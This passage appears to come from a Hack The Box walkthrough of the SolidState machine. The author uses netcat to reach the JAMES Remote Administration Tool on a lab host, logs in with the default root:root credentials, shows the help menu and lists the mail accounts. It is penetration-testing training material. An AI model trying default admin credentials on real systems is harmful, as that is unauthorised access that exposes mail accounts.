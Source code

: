 ![site.png](../assets/solidstate_assets/site.png)

But before digging into HTTP too much, I want to take a look at the James Remote Administraation tool on port 4555. 

After trying a couple combinations, I was able to sucessfully login with the credentials root:root. Fromm there I was also able to take a look at the users.

```text
┌──(ryan㉿kali)-[~/HTB/SolidState]
└─$ nc -nv 10.10.10.51 4555
(UNKNOWN) [10.10.10.51] 4555 (?) open
JAMES Remote Administration Tool 2.3.2
Please enter your login and password
Login id:
root
Password:
root
Welcome root. HELP for a list of commands
HELP
Currently implemented commands:
help                                    display this help
listusers                               display existing accounts
countusers                              display the number of existing accounts
adduser [username] [password]           add a new user
verify [username]                       verify if specified user exist
deluser [username]                      delete existing user
setpassword [username] [password]       sets a user's password
setalias [user] [alias]                 locally forwards all email for 'user' to 'alias'
showalias [username]                    shows a user's current email alias
unsetalias [user]                       unsets an alias for 'user'
setforwarding [username] [emailaddress] forwards a user's email to another email address
showforwarding [username]               shows a user's current email forwarding
unsetforwarding [username]              removes a forward
user [repositoryname]                   change to another user repository
shutdown                                kills the current JVM (convenient when James is run as a daemon)
quit                                    close connection
listusers
Existing accounts 5
user: james
user: thomas
user: john
user: mindy
```
